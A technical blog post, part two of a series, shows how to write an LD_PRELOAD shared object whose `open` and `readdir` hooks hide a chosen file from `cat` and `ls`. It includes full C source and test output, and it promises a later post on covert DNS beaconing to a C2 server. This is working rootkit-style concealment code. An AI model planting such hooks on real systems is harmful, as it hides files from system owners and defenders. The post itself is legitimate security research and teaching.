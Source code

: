 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 2)"
date: 2022-10-04T21:45:03+03:00
draft: false
---
```


## Series

1. [Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)]({{< ref "/posts/dynamic-linker-hijacking-experiments.md" >}})
2. (this one)

## Journey Post
This post is a something that I call "journey post", this follows my process of researching and implementing the solution for the problem (or the challenge). I will wrap/pre-fix parts of the post with html-like `<journey>` so that you can skip it if you are in a hurry.

<hr />

## Overview

In the last post I've described how I hid a file from all the sys calls that are using `readdir`. In this post I will try to hide it from the `cat` command. Let's first examine/reverse engineer how the `cat` command works internally.

Naturally I would start with a simple [strace](https://man7.org/linux/man-pages/man1/strace.1.html) which will trace the system calls and signals that the command uses. 

```console
$ which cat
/usr/bin/cat
$ strace /usr/bin/cat syl.lys
execve("/usr/bin/cat", ["/usr/bin/cat", "syl.lys"], 0x7ffca9c17508 /* 68 vars */) = 0
...
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory) // WINK WINK, not yet
...
openat(AT_FDCWD, "syl.lys", O_RDONLY) = 3
```

The most interesting sys call in the output is `openat` so lets see the source code of [openat.c](https://github.com/coreutils/gnulib/blob/master/lib/openat.c#L182). Here we can see the `char const *file` that variable is what holds our filename (look at the `strace` output). After that, I followed our steps in the last [post](dynamic-linker-hijacking-experiments) by implementing a function with the same signature and wrapping the original one. 

`<journey>`


After a few tries I was quick to realize that there is some issue. The wrapper that I've implemented didn't work, or at least didn't work all the time. I've tested it out with a simple program that would just call it and in there it worked, I didn't quite get why it does what it does but I found the following discussions:

- [intercepting the openat() system call for GNU tar](https://stackoverflow.com/questions/9161116/intercepting-the-openat-system-call-for-gnu-tar)
- [How to find out what functions to intercept with LD_PRELOAD?](https://stackoverflow.com/questions/49314057/how-to-find-out-what-functions-to-intercept-with-ld-preload)

As it turns out (my best guess) the sys call that I am trying to override `openat` is probably not the one that the `cat` uses. I decided to look at the source code for [cat.c][https://github.com/coreutils/coreutils/blob/master/src/cat.c] and search for everything that has `*open*` in it.

I found on [line 686](https://github.com/coreutils/coreutils/blob/master/src/cat.c#L686) a call to the `open`. An important note here is that this `open` call here is not the sys call but the call in the std lib which will call the related system call for us. So I've decided to change my approach and override the `open` function instead.

`</journey>`

How does the [open function](https://man7.org/linux/man-pages/man2/open.2.html) work? I wouldn't try to explain something that I am hardly good at so it is best for you to read the man pages for that one.

Let's start by copying the signature of the [open function](https://github.com/coreutils/gnulib/blob/master/lib/open.c#L59) and wrap it.

```c
static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

In this code block I've wrapped the original `open` function with our implementation of the `open` function. What is left now is to add our "malicious" part to it.

```c
if (strcmp(filename, MALICIOUS_FILE) == 0) 
{
    errno = ENOENT; // Setting up the error to be ERROR NO ENTRY(ENOENT)
    return -1; // Returning -1 (failure)
}
```

And lastly all together

[intercept_open.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/intercept_open.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{   
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

Let's see if its working...

```console
$ ls
intercept_open.so  syl.lys
$ LD_PRELOAD=./intercept_open.so cat syl.lys
cat: syl.lys: No such file or directory
```

As you can see the `cat` command returns `No such file or directory` which is exactly what we are aiming for.

## Combining it with our `readdir`

We created a malicious `open` function that wraps the original one from the standard lib, lets now combine it with the `readdir` from the previous post into a single shared object.

[malicious.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/malicious.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>
#include <dirent.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;
struct dirent *(*original_readdir)(DIR *dirp) = NULL;

int open (const char *filename, int flags, ...)
{
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}

struct dirent *readdir(DIR *dirp) 
{
    struct dirent *ret;
    original_readdir = dlsym(RTLD_NEXT, "readdir");

    while((ret = original_readdir(dirp))) {
        if(strstr(ret->d_name, MALICIOUS_FILE) == 0)
            break;
    }
    return ret;
}
```

Let's test it out, supposedly we shouldn't get entries from `ls` and `cat`.

```console
$ touch syl.lys
$ ls
intercept_open.c  malicious.c  malicious.so  syl.lys
$ export LD_PRELOAD=./malicious.so
$ ls
intercept_open.c  malicious.c  malicious.so  README.md
$ cat syl.lys
cat: syl.lys: No such file or directory
```

# End
With that I am concluding this post, again if you reached here thank you so much it means a lot! In the next part I will get deeper and make our malicious file to be running and beaconing a malicious C2 server, we will look through some C2 communication examples using the DNS protocol so that we can remain under the radar(or the firewall ^^).

[Full Source Code](https://github.com/syrull/evasive_techniques/tree/main/Part_2_open)

# Resources

This post wouldn't be possible without:

- https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-5.html
- https://linux.die.net/man/2/openat
- And some kind StackOverflow users! 
